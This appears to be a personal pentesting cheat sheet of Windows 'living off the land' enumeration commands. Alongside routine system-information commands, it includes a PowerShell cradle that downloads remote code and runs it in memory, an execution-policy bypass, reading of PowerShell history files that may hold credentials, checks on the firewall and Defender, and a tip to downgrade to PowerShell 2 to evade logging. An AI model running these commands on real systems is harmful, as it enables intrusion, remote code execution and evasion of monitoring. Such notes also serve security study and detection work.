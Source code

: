 ## Living off the land

Basic enumeration 
# Useful Commands for System Information

| Command | Description |
| ------- | ----------- |
| `hostname` | Prints the PC's Name |
| `[System.Environment]::OSVersion.Version` | Prints out the OS version and revision level |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn` | Prints the patches and hotfixes applied to the host |
| `ipconfig /all` | Prints out network adapter state and configurations |
| `set` | Displays a list of environment variables for the current session (run from CMD prompt) |
| `echo %USERDOMAIN%` | Displays the domain name to which the host belongs (run from CMD prompt) |
| `echo %logonserver%` | Prints out the name of the Domain Controller the host checks in with (run from CMD prompt) |
| | |


We have systeminfo

```ps
Get-Module	 #Get all available module

Set-ExecutionPolicy Bypass -Scope Process #This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. 

Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt 

Get-ChildItem Env: | ft Key,Value # get enviromental values

powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>" #This is a quick and easy way to download a file from the web using PowerShell and call it from memory.

netsh advfirewall show allprofiles # cheking firewalls 

sc query windefend # checking windows defender

qwinsta #check for logged users

netsh advfirewall show allprofiles #Displays the status of the host's firewall. We can determine if it is active and filtering traffic.
```

to by pass powershell loggin, use powershell 2.0 or older =)

```ps
powershell.exe -version 2
```

## Windows Management Instrumentation (WMI)
https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4